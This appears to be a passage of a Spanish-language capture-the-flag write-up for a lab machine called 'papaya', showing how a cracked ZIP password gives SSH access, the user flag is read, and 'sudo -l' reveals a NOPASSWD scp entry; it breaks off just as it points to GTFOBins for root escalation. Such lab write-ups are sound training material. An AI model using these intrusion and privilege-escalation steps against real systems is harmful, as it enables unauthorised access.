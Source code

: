 Intentemos descomprimir otra vez el **archivo ZIP** usando la contraseña:
```bash
unzip pass.zip
Archive:  pass.zip
[pass.zip] pass.txt password: 
 extracting: pass.txt
```
Obtuvimos un archivo de texto.

Al leerlo, vemos que parece ser una contraseña:
```bash
cat pass.txt
******
```

Probémosla con el **usuario papaya** para autenticarnos vía **SSH**:
```bash
ssh papaya@192.168.10.30
papaya@192.168.10.30's password: 
Linux papaya 6.1.0-22-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.94-1 (2024-06-21) x86_64
...
...
Last login: Tue May  6 08:08:03 2025
papaya@papaya:~$ whoami
papaya
```
Estamos dentro.

Ahora sí, podemos obtener la flag del usuario:
```bash
papaya@papaya:~$ ls
user.txt
papaya@papaya:~$ cat user.txt
...
```

<br>

<h2 id="scp">Escalando Privilegios con Binario SCP</h2>

Si revisamos los privilegios de nuestro usuario, encontramos que podemos usar el **binario scp** como **Root**:
```bash
papaya@papaya:~$ sudo -l
Matching Defaults entries for papaya on papaya:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User papaya may run the following commands on papaya:
    (root) NOPASSWD: /usr/bin/scp
```

Podemos buscar una forma de escalar privilegios con este binario en la **guía de GTFOBins**:
* <a href="https://gtfobins.github.io/gtfobins/scp/" target="_blank">GTFOBins: scp</a>

Aquí está:
